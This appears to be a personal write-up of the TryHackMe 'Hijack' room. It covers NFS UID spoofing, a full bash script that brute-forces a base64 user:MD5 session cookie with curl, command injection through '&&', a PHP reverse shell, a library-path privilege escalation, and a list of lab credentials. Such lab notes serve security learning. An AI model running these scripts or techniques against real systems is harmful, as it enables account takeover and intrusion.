

# Hijack

type: web
Difficulty: Easy
anki cards : No need
date  added: July 14, 2026 12:25 PM
finished_d: July 14, 2026 12:25 (GMT+3)
finished: progress
last Practiced: July 14, 2026 12:25 PM (GMT+3)
platform: Try Hack Me
source: https://tryhackme.com
status: In progress
take away: all saved inside the room
vunlerabilites: menshtion_in _attacks
what I learned: added to my experience
num: 130

Hijack

- [ ]  CVE
- about
    
    # About CVE ( if any)
    
    <aside>
    💡
    
    </aside>
    

# Challenge

<aside>
💡



</aside>

# Walk through

# Clues

<aside>
💡


</aside>

# first let’s  check the connection : =⇒ connected

# now let’s scan the host using nmap ( to enumerate the services) =⇒ 22,80,111,2049,41


- let’s check ftp anonymous login
- 


# Let’s check the website:


- administrator page:
    
    
    
- login and register page:

> It appears that it has a user admin”
> 
> 
> 
> 
- Okay after registering I investigated the cookies:
    
    c2FtOmVhZGQ5MzRlMmNjOTc4ZmM2MjJmYzEzMjQ4NzhkOGFm
    
    
    
    - which is consisted of 2 parts: in base64
        - username: md5_password_hash
        - sam:eadd934e2cc978fc622fc1324878d8af

# Let’s try to bruteforce it: ( no luck, because of attempt limit)


# Let’s check other things:

- RPCBind
- look for 100003 and 100005
    
    
    
    
    
    
    
    
    
    - but, can’t access the directory , only nfsuser has permission so let’s create a user with same name and id
    - Commands:

      ( sudo groupdadd -g 10003 nfsuser)   for the group
      (sudo useradd -u 1003 -g 10003  nfsuser)  for the user
    
     
    
    
    
    - let’s check it
        
        
        

# ==⇒> In FTP:

- 
    
    
    
- 2  interesting files here:
    - .password_list.txt
        
        
        
    - from_admin.txt:
        
        
        
    

# ==⇒ login bruteforce

- Now we have the passwords that the admin uses one of them.
- let’s create a script to bruteforce them
- since login has a try limit , we will switch to the cookie
- let’s use this script for that:
    - code ( brute_cookie)
        - v 1.0
            
            ```jsx
            #!/bin/bash
            
            RED=$(tput setaf 1)
            GR=$(tput setaf 2)
            BL=$(tput setaf 4)
            BD=$(tput bold)
            RT=$(tput sgr0)
            
            if [[ $1 == "help" ]]; then
                    figlet "Brute Cookie"
                    echo "=====> by $RED $BD dummyclick $RT"
            
                    echo "========> $BL $BD syntax $RT"
                    echo "$BL brute_cookie.sh $RT  webpage  username  password_list denied_phrase"
                   exit
            fi
            if [[ $# -lt 2 ]] ;then
                    echo " ======> missing arguments"
                    echo "=====> syntax brute_cookie.sh web_page username  wordlist  phrase_not_accepted"
                    exit
            fi
            
            echo "========> starting"
            while IFS= read -r pa; do 
            
                    base=$(echo -n "$2:$pa" | base64)
            
                    res=$(curl $5  -L $1 -b "PHPSESSID=$base" | grep -i $4)
            
                    if [[ -z $res ]] ; then
                            echo " ========> your password = $GR $pa $RT"
                            echo " ========> base64 = $BL $base $RT"
                            figlet "password_found"
                            exit
            
                    fi
            
            done < $3
            
            figlet "Nothing Found"
            
            ```
            
        - v 1.2
            
            ```jsx
            #!/bin/bash
            
            RED=$(tput setaf 1)
            GR=$(tput setaf 2)
            BL=$(tput setaf 4)
            BD=$(tput bold)
            RT=$(tput sgr0)
            
            YE=$(tput setaf 3)
            
            ip=$(awk -F "/" ' {print $3}' <<< "$1" )
            er="f"
            
            if ! ping  -c 2  $ip >& /dev/null  ; then
                    echo -e "=========> connection is dead\n\n\n"
            
                    exit
            
            fi
            
            if [[ $1 == "help" ]]; then
                    figlet "Brute Cookie"
                    echo "=====> by $RED $BD dummyclick $RT"
            
                    echo "========> $BL $BD syntax $RT"
                    echo "$BL brute_cookie.sh $RT  webpage  username (p)  password_list denied_phrase"
                    printf "\n\n =====> p stands for plain passwords ( will be hashed with md5)"
                   exit
            fi
            if [[ $# -lt 2 ]] ;then
                    echo " ======> missing arguments"
                    echo "=====> syntax \nbrute_cookie.sh web_page username  wordlist  phrase_not_accepted"
                    exit
            fi
            
            pass_list=$3
            echo -e  "========> starting\n\n"
            sleep 1
            
            # Reading password list and converting it to base64
            
            track=0
            while IFS= read -r pa; do 
            
                    if [[ $6 == "p" || $5 == "p" ]]; then
                            if [[ $track -le 0 ]]; then
                                    echo -e  "=====> $BL hashing $RT  plain passwords first\r\n\n"
            
                            fi
                            hash_p=$(echo -n $pa | md5sum | awk '{print $1}' )
            
                            base=$(echo -n "$2:$hash" |base64)
                            pass_list=$4
            
                    else
                            base=$(echo -n "$2:$pa" | base64)
                    fi
            
                    ((track++))
            
                    res=$(curl --connect-timeout 50  $5  -L $1 -b "PHPSESSID=$base" 2> $er | grep -i $4) 
            
                    if [[  $er != "f"   ]]   ; then
                            echo  -e "========> $RED time out $RT check connection \n\n"
                            exit
            
                    fi
            
                    if [[ -z $res ]] ; then
                            echo " ========> your password = $GR $pa $RT"
                            echo " ========> base64 = $BL $base $RT"
                            figlet "password_found"
                            exit
            
                    fi
            
            done < $pass_list
            
            echo -e  "\n\n========> passwords $BL $BD checked $RT  $track \n\n"
            echo -e "\n\n ========> last user:hash $YE $base  $RT \n\n "
            bas=$(echo -n "$base" | base64 -d)
            
            echo -e "\n\n ========> user:hash $BL $BD $bas $RT"
            figlet "Nothing Found"
            
            ```
            
    - code (hash_generator)
        - this one generate the hashes from raw passwords in the format of user:md5_hash_password
            
            ```jsx
            #!/bin/bash
            
                    if [[ "$1" == "help" ]];then
                            echo "=========> syntax"
                            printf "========> hash_gen.sh username  wordlist.txt output.txt\n\n"
                            exit
                    fi
            
            if [ $# -lt 2 ]; then 
                    echo "enter all required arguments"
                    exit
            fi
            
            perc=$(wc -l $1 | awk '{print $1}')
            echo "prec ==$perc"
            tracker=0
            
            while IFS= read -r word; do
                    if [[ $tracker -gt 1 ]]; then
            
                            out=$(awk -v t=$tracker -v p=$perc 'BEGIN { if (t == 0){ print "tracker is 0" } else {print (t*100/p)*100 } }')
            
                            echo -en "$out ....\r"
            
                    fi
                    hashed=$(echo -n "$word" | md5sum | awk '{print $1}')
            
                    if [[ $# -eq 3 ]] ; then
                            bas=$(echo -n "$2:$hashed" | base64)
            
                            echo  "$bas" >> $3
            
                    else
                            echo  "$hashed" >>$2
            
                    fi
            
                    ((tracker++))
            done < $1
            
            figlet "Finished!"
            exit
            
            ```
            
- found the password:
    
    
    


## ==⇒ Get a reverse shell:

- Now we are admin the website:
    
    
    
- It appears to be a service query:
    
    
    
- after trying ;, || and && for command in jection:
    - only && worked
    - ssh && ls -la
    
    
    
- let’s try to create a php reverse shell or parameter
- at first the shell never established,
- so I disabled the firewall
    - sudo ufw disable


- now we have a reverse shell let’s upgrade it
    
    
    

# Q1 : ✅

user flag:

## First let’s switch user rick or find a a way to read the flag:

- After searching around for a while:
- 


- We are rick
- Found the flag:
    
    
    

# Q2:  ✅

- read root.txt

## escalate privileges:


- something intersting here
    - 
    
    
    
- this makes sure that shared libraries are loaded first and it’s effected by the user env variables ( meaning we can change the path for it , and create a shared object with the same name as one of the libraries apache2 depend on:
    - 
    
    
    
    - rename our exploit and move it to /tmp so it’s easier to access :
        
        
        
    - edit the path to /tmp
        
        
        
    - We are root:
        
        
        
    - Found the flag:
        - 
        
        
        

# checkups ( CTF info valut)

- [ ]  Website
    
    # Website:  checks
    
    - [ ]  directory enum:
        - results
    - [ ]  sql injection:
        - Results:
    - [ ]  command injection
        - Results:
    - [ ]  bruteforcing:
        - Results:
    - [ ]  robots.txt
        - Results
    - [ ]  sitemap.xml
        - Results
    - [ ]  domain enum
        - Results
    - [ ]  user-agent ( all)
        - Results
    - [ ]  XSS DOM
        - Results
    - [ ]  LFI
        - Results
    - [ ]  directory traversal
        - Results
    
- [x]  privilege escalation:
    
    # Privilege escalation:
    
    - [x]  user groups and permissions: ❌ ✅
    
    - [ ]  check .bash_history  ❌ ✅
        
        
    - [x]  sudo -l   ❌   ✅
    
    - [ ]  SUID  ❌  ✅
    
    - [ ]  writable files & path ❌ ✅
    
    - [x]  crontab  ❌   ✅
    
    - [x]  hidden cronjobs ❌ ✅
        
        ( tools like **pspy64, or just use:**
        
        - while true; do ps aux | grep -v grep | grep -E "CRON|root.*sh" >> /tmp/procs.log; sleep 1; done
    
    - [x]  open services ( netstat) ❌ ✅
    
    - [x]  **Linux Capabilities (** `getcap -r / 2>/dev/null)`  ❌  ✅
    
    - [ ]  Share Files ( NFS)  ❌  ✅
    
    - [ ]  ssh keys  ❌  ✅
    
    - [ ]  kernel vulnerabilities  ❌ ✅
    
    - [ ]  Sudo vulnerability  ❌  ✅
    
    - [ ]  library (privileged) ❌  ✅
    
    - [ ]  check for files owned by user: ❌ ✅
        
        
    - [ ]  check /opt directory and other directories for anything interesting: ❌ ✅
    

- [ ]  creds
    
    # Creds:
    
    <aside>
    💡
    
    ## Possible
    
    website:
    
    - admin
    </aside>
    
    <aside>
    💡
    
    ## Valid
    
    - FTP:
        
        user= ftpuser
        
        pass = W3stV1rg1n14M0un741nM4m4
        
    - login page:
        - admin
        - d6573ed739ae7fdfb3ced197d94820a5
        - 
    - system users:
        - rick:N3v3rG0nn4G1v3Y0uUp
    </aside>
    
    # Important info
    
    <aside>
    💡
    
    - which is consisted of 2 parts: in base64
        - username: md5_password_hash
        - sam:eadd934e2cc978fc622fc1324878d8af
    </aside>
